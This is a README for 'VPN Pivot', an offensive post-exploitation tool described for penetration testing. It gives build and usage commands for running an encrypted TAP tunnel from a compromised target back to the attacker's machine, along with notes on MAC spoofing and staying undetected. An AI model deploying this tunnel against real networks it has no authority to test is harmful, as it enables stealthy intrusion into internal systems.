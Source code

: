 VPN Pivot!
===================
Sometime we do external penetration testing and when we compromise the remote target we would love to explore the internal network behind and getting such compromise like owning Active directory, accessing shared files ... etc.
There are many techniques like port forwarding, socks4 ..., but each one has its pros and cons . this is the reason why VPN pivoting techniques is out , it solves all the problems encountered by using both of the techniques mentioned above.
it lets you interact with internal networks that are prevented by firewalls,NATs .. etc

This an implementation of **VPN pivoting** technique in Linux using pure low-level sockets within tap device.
It creates a fully encrypted tunnel using a shared key between the target machine and the attacker.
 
----------


How it works
-------------
VPN Pivot sends and receive a fully encrypter TCP/IP stack over TCP socket,then the peers forward it into the desired device.
The attacker explores the internal network as he belongs to it within a local IP address taken from the dhcp server or statically configured . the used IP will never be reachable which makes him harder to track.

>**VPN Server: **
The VPNPivot server must be run in the the attacker machine, it creates a a virtual device (tap)  with the possibility to change MAC (that seems fine for spoofing and Mac switching) , IP address , MTU and also the owner of the interface.
The TAP devices interacts with the targets machine, it sends/receives raw ethernet frame.
Once the attacker get a successfully tunnel connection, the tap device can intercats with the DHCP server of the internal hacked network, receives/send broadcast packets, and also IP addresses reuse.

>**VPN Client: **
The VPN Pivot client must be run in the target machine, it creates two socket files , the first as client for the tunnel and the second for interacting with the device directly.
it works like we are creating a undetectable tap device which makes it harder to detect.
 
---------

Usage
-------------
**Compilation :**

> simo:~/projects/VPNPivot$ make
  [CC] vpnp_server.o
  [CC] crypto.o
  [BIN] vpnp_server
  [CC] vpnp_client.o
  [BIN] vpnp_client
  ---------
**vpnp_server :**
> ./vpnp_server -i pwn0 -I 192.168.200.70/24 -m 1500 -H 0c:0a:DE:AD:BE:EF -K "I0wnY0u*!" -v**
[+] Setup a non-persistent tap : pwn0
[+] Listening on port : 12345

So it creates an a tap device named pwn0 as shown bellow:
> 
simo@pwner:~$ ifconfig pwn0
pwn0      Link encap:Ethernet  HWaddr 0c:0a:de:ad:be:ef  
          inet adr:192.168.200.70  Bcast:192.168.200.255  Masque:255.255.255.0
          adr inet6: fe80::887e:86ff:fe8a:3599/64 Scope:Lien
          UP BROADCAST RUNNING  MTU:1500  Metric:1
          Packets reçus:0 erreurs:0 :0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 lg file transmission:500 
          Octets reçus:0 (0.0 B) Octets transmis:0 (0.0 B)

finally, it waits for the client to be connected 

**vpnp_client :**
> Usage : 
./vpnp_client 10.254.30.53 12345 10.10.10.1 "I0wnY0u*!"

That's it :-) , enjoy your pwning 

TODO
-------------
The main focus for the moment is to port the client to windows, The client is mainly designed to be portable and doesn't require any dependencies, 
Since windows doesn't support data link layer manipulation with WinSock ,thus we should hook some kernel function (NDIS hooks?).


